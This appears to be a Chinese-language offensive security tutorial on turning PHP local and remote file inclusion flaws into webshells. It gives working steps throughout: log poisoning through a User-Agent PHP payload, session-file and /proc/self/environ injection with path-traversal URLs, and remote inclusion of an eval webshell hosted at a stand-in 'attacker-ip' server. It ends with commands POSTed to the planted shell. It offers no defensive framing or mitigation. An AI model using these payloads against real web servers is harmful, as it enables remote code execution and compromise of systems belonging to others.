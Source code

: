 ### 怎么 GetShell

**本地文件包含 (LFI) Getshell**

LFI 的 Getshell 方法通常需要结合其他漏洞或技巧。攻击者无法直接包含一个远程 Webshell，但可以通过多种方式将恶意代码注入到服务器上的某个文件中，然后利用LFI漏洞包含该文件，从而执行恶意代码

**1. 日志文件 Getshell**

这是 LFI Getshell 最经典且常用的方法之一。许多 Web 服务器（如Apache、Nginx）会将访问请求记录在日志文件中（如`access.log` 或 `error.log`）

**利用步骤：**

1. **注入恶意代码**：通过一个特制的 HTTP 请求，将恶意代码（如 PHP Webshell 代码）注入到服务器的日志文件中。例如，在 URL 中加入或在 User-Agent 字段中写入 Webshell 代码：

   ```php
   <?php eval($_GET['cmd']);?>
   ```

   一个完整的 HTTP 请求可能看起来像这样：

   ```php
   GET /?page=test.php HTTP/1.1
   Host: example.com
   User-Agent: <?php system('whoami');?>
   ```

   这样，服务器的 `access.log` 文件中就会记录下这段恶意代码

2. **包含日志文件**：利用 LFI 漏洞，通过文件包含参数（如 `page` 或 `file`），包含日志文件

   ```apl
   http://example.com/index.php?file=../../../../var/log/apache2/access.log
   ```

   当服务器执行这个请求时，它会把日志文件的内容当作 PHP 代码来执行，从而执行了我们注入的`system('whoami');` 命令

3. **获取 Webshell**：如果注入的是一个完整的 Webshell，现在就可以通过参数来执行任意命令了

   ```apl
   http://example.com/index.php?file=../../../../var/log/apache2/access.log&cmd=ls -al
   ```

**2. Session 文件 Getshell**

某些 Web 应用程序会将用户的 Session 信息保存在服务器的 `/tmp/` 目录下的文件中，文件命名通常为 `sess_PHPSESSID`。如果攻击者可以控制 Session 数据，就能通过 LFI 包含该文件 Getshell

**利用步骤：**

1. **设置 Session 值**：通过 `$_SESSION` 变量，将恶意代码注入到 Session 中。这通常需要先找到一个可以控制Session 值的参数，例如在登录或注册时

   ```php
   $_SESSION['username'] = "<?php eval($_POST['cmd']);?>";
   ```

2. **获取 Session 文件路径**：通常 Session 文件的命名是 `sess_` 加上 Session ID。可以通过浏览器 Cookies 中的`PHPSESSID` 来获取

   ```apl
   http://example.com/index.php?file=../../../../tmp/sess_f32921a92a5436687e9544485304a9d7
   ```

3. **执行恶意代码**：当 LFI 漏洞包含该 Session 文件时，恶意代码被执行

**3. /proc/self/environ Getshell**

在 Linux 系统中，`/proc/self/environ` 文件存储了当前进程的环境变量。攻击者可以通过设置 User-Agent 等环境变量，将恶意代码注入到该文件中，然后利用 LFI 漏洞包含它

**利用步骤：**

1. **设置 User-Agent**：发送一个带有恶意 User-Agent 的请求

   ```apl
   GET /index.php?page=test.php HTTP/1.1
   Host: example.com
   User-Agent: <?php system('whoami');?>
   ```

2. **包含环境变量文件**：

   ```apl
   http://example.com/index.php?file=../../../../proc/self/environ
   ```

3. **执行恶意代码**：成功包含后，恶意代码即被执行

**远程文件包含 (RFI) Getshell**

RFI 通常比 LFI 更容易利用，因为它允许攻击者直接从自己的服务器上包含并执行恶意文件

**利用步骤：**

1. **制作 Webshell 文件**：在攻击者自己的服务器上创建一个 Webshell 文件，例如 `shell.txt`，内容如下：

   ```
   <?php eval($_POST['cmd']);?>
   ```

   为了绕过一些过滤，文件名可以不使用 `.php` 后缀，例如 `shell.txt` 或 `shell.jpg`

2. **启动 HTTP 服务**：在攻击者的服务器上（如Kali Linux），使用 Python 启动一个简单的 HTTP 服务来托管`shell.txt`：

   ```bash
   python3 -m http.server 80
   ```

3. **远程文件包含**：利用 RFI 漏洞，将 URL 指向攻击者的服务器，包含 `shell.txt`

   ```apl
   http://example.com/index.php?file=http://attacker-ip/shell.txt
   ```

   **注意**：为了防止服务器对 URL 进行过滤，有时需要使用编码、伪协议（如 `data://`）等技巧

4. **连接 Webshell**：如果成功，`shell.txt` 中的 Webshell 代码已经被执行。现在就可以使用工具（如 Postman、Burp Suite）或直接在 URL 中 POST 数据来执行命令了

   ```apl
   POST /index.php?file=http://attacker-ip/shell.txt HTTP/1.1
   Host: example.com
   Content-Type: application/x-www-form-urlencoded
   
   cmd=ls -al
   ```